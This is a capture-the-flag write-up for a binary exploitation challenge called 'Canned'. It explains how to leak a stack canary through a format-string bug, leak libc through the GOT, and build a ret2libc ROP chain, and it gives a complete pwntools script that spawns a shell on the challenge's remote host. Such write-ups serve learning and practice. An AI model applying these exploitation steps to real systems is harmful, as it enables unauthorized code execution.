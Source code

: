 # Canned
**Category**: Pwn

**The task**:

![img0](./images/task.png)

This challenge required us to overcome binary protections such as NX, Stack canaries and ASLR.


# Analysis

We were given a binary(``./canned``) and a remote host(which, runs this binary). 

What are we working with:
* The binary has a format string vulnerabillity
* It also has a buffer overflow
* The binary has ``PIE`` disabled, meaning that the GOT/PLT has a fixed address.


Obstacles:
* The binary has NX protection enabled
* Stack canary protection is also enabled(libc's ``FORTIFY`` stuff) which prevents ``RIP`` takeover via the stack.
* The address of libc is randomized so we cannot know where to jump even if we manage to leak the stack canary and takeover ``RIP``.

# Solution

* To overcome the stack canary and skip the libc's `` ** stack smashing detected **`` error, we can use the format string vulnerabillity and leak the stack cookie.
* To overcome NX: we'll perform a ret2libc attack
* To overcome libc's ASLR: we'll leak the GOT entry of ``puts@plt`` using a ROP gadget.
  * After getting a leaked libc ``puts`` address, we can determine the libc version which the server is running using tools like [_libc-database_](https://libc.rip/)
  * When we get the libc version, we can download a copy of the ``libc.so`` file and analyze its symbols&offsets to calculate the libc base address on the target server
  * After getting the base address, it is fairly easy to calculate the address of ``system``.
* At the end, we'll make another ``ret`` to ``main`` in order to restart the program. 
* Landing again on ``main``, we'll exploit the buffer overflow one more time, but this time with another ROP chain to perform a _ret2libc_ attack with our known values(address of libc's ``system`` + leaked canary) to pop a shell.



```py
from pwn import * 

context.log_level = 'CRITICAL'

# step 0 - define vars
canned = ELF('./canned')
rop    = ROP(canned)

p = remote('35.238.225.156', 1007)
pop_rdi      = rop.find_gadget(['pop rdi', 'ret'])[0]
align_stck   = rop.find_gadget(['ret'])[0]
get_canary   = '%15$p'  # 15th element on the stack is the stack cookie
buffer_size  = 0x20 - 8 # minus 8 due to the stack cookie
main         = p64(canned.symbols['main'])


# step 1 - get canary 
p.recvuntil('Say something please')
p.sendline(get_canary)
p.recvline() # newline
leak = p.recvline()[:-1]
canary = p64(int(leak.decode() , 16))
print('canary leak: ', leak.decode())

p.recvuntil('try something else maybe')

# step 2 - leak libc addr, calculate base & return again to main
rop_payload  = b'A'*buffer_size 
rop_payload += canary
rop_payload += b'B'*8
rop_payload += p64(pop_rdi)
rop_payload += p64(canned.got['puts'])
rop_payload += p64(canned.plt['puts'])
rop_payload += main


p.sendline(rop_payload) # executing step 1 + 2
p.recvuntil('bye\n')
leak = p.recvline()[::-1][1:].hex()
puts_leak = int('0x' + leak, 16)
print('puts leak: ', hex(puts_leak)) # find version using libc database tools

libc = ELF('./libc6_2.27-3ubuntu1.3_amd64.so')
libc_base   = puts_leak - libc.symbols['puts']
libc_system = libc_base + libc.symbols['system']
str_bin_sh  = libc_base + 0x1b3e1a

print(
    'libc base ', hex(libc_base),
    '\nlibc syst ', hex(libc_system),
    '\nlibc binsh', hex(str_bin_sh),
)

# step 3 - back again at main: trigger overflow & jump to system
p.recvuntil('Say something please')
p.sendline('shaq-attack :D')
p.recvuntil('try something else maybe')

system_pwn  = b'A'*buffer_size 
system_pwn += canary
system_pwn += b'B'*8
system_pwn += p64(align_stck) # extra ROP sauce. Adding another ret gadget to keep the stack aligned or else libc will crash 
system_pwn += p64(pop_rdi)
system_pwn += p64(str_bin_sh)
system_pwn += p64(libc_system)

p.sendline(system_pwn) 
p.interactive()
```

aaaand

![img1](./images/flag.png)

thanks for the challenge :D 